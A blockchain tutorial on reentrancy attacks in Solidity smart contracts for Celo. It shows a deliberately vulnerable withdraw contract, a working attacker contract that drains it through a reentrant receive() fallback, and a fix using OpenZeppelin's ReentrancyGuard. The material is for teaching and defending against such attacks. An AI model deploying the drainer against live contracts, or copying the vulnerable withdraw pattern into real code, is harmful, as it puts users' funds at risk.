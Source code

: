 ```yaml
---
title: Understanding Reentrancy Attacks And How To Protect Your Smart Contract Using Open Zeppelin
description: In this tutorial we will explain how re-entrancy attacks work. And how to protect your smartcontract from such attacks
authors:
  - name: Jonathan Iheme
    url: https://github.com/4undRaiser
    image_url: https://avatars.githubusercontent.com/u/87926451?s=96&v=4
tags: [celosage, solidity, intermediate]
hide_table_of_contents: true
slug: /tutorials/understanding-reentrancy-attacks-and-how-to-protect-your-smart-contract-using-open-zeppelin
---
```


![header](../../src/data-tutorials/showcase/intermediate/understanding-reentrancy-attacks-and-how-to-protect-your-smart-contract-using-open-zeppelin.png)

## Introduction

Reentrancy attacks are a common security vulnerability in smart contracts, particularly those that handle Ether transactions on the Ethereum blockchain. This tutorial will provide a detailed explanation of reentrancy attacks, demonstrate a vulnerable smart contract, and show you how to use the OpenZeppelin library to protect your smart contract from such attacks.

In this tutorial, we will explain reentrancy attacks, and provide a step-by-step guide for implementing OpenZeppelin safeguards.

[Full source code](https://github.com/4undRaiser/https://github.com/4undRaiser/reentrancy-repo)

## Prerequisites

To follow this tutorial, you will need the following:

- Basic understanding of Solidity and smart contracts
- A Development Environment Like Remix.
- Access to the OpenZeppelin library
- The celo Extension Wallet.

## A Simple Vulnerable Contract

Let's take a look at a simple vulnerable smart contract.

```solidity
 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract VulnerableContract {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
        balances[msg.sender] -= amount;
    }
}
```

The contract above allows users to deposit and withdraw Ether. However, it is vulnerable to reentrancy attacks. The `withdraw()` function sends Celo before updating the user's balance, which allows an attacker to call the function repeatedly and drain the contract's funds.

### Attack Simulation

Now, let's create a malicious contract to simulate a reentrancy attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./VulnerableContract.sol";

contract MaliciousContract {
    VulnerableContract public vulnerableContract;

    constructor(address _vulnerableContractAddress) {
        vulnerableContract = VulnerableContract(_vulnerableContractAddress);
    }

    function attack() public payable {
        require(msg.value > 0, "No funds sent");
        vulnerableContract.deposit{value: msg.value}();
        vulnerableContract.withdraw(msg.value);
    }

    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }

    receive() external payable {
        if (address(vulnerableContract).balance > 0) {
            vulnerableContract.withdraw(msg.value);
        }
    }
}
```

In the malicious contract, we create a fallback function (receive) that is executed whenever the contract receives Celo. When the `withdraw()` function is called from the vulnerable contract, it triggers the fallback function, which then calls `withdraw()` again, leading to a reentrancy attack.

## Protecting Your Smart Contract With OpenZeppelin

OpenZeppelin provides a library of reusable and secure smart contract components, including the `ReentrancyGuard` contract that protects against reentrancy attacks.

To use OpenZeppelin, you have to import the library into your contract:

```solidity
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v4.3.0/contracts/security/ReentrancyGuard.sol";

contract SecureContract is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public nonReentrant {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
        balances[msg.sender] -= amount;
    }
}
```

In the `SecureContract`, we inherit from `ReentrancyGuard`, provided by OpenZeppelin. Then, we add the `nonReentrant` modifier to the `withdraw()` function. This modifier ensures that the function cannot be re-entered while it is still being executed. This effectively prevents reentrancy attacks.

## Deployment

To deploy our smart contract successfully, we need the celo extention wallet which can be downloaded from [here](https://chrome.google.com/webstore/detail/celoextensionwallet/kkilomkmpmkbdnfelcpgckmpcaemjcdh?hl=en)

Next, we need to fund our newly created wallet which can done using the celo alfojares faucet [Here](https://celo.org/developers/faucet)

You can now fund your wallet and deploy your contract using the celo plugin in remix.

## Testing The Secure Contract

Now let's test the `SecureContract` against reentrancy attacks:

1. Deploy the `SecureContract`.
2. Deploy the `MaliciousContract` with the address of the `SecureContract`.
3. Call the `attack()` function on the `MaliciousContract` with some Celo.

You should notice that the reentrancy attack is no longer successful. The `nonReentrant` modifier in the `SecureContract` prevents the `MaliciousContract` from calling the `withdraw()` function repeatedly.

## Conclusion

In this tutorial, we have explored reentrancy attacks and their implications for smart contracts. We have also demonstrated how to protect your smart contract from such attacks using the OpenZeppelin library.

In the import statement, we are using the URL of the OpenZeppelin ReentrancyGuard contract hosted on GitHub. Note that the URL contains a specific version (v4.3.0) of the contract to ensure compatibility. Make sure to check the latest version of OpenZeppelin contracts on GitHub and update the URL accordingly.

By using OpenZeppelin's ReentrancyGuard, you can effectively secure your smart contracts and ensure they are not vulnerable to reentrancy attacks.

## Next Steps

I hope you learned a lot from this tutorial. Here are some relevant links that would aid your learning further.

- [Celo Docs](https://docs.celo.org/)
- [Solidity Docs](https://docs.soliditylang.org/en/v0.8.17/)

## About the author

I'm Jonathan Iheme, A full stack block-chain Developer from Nigeria.

Thank You!!
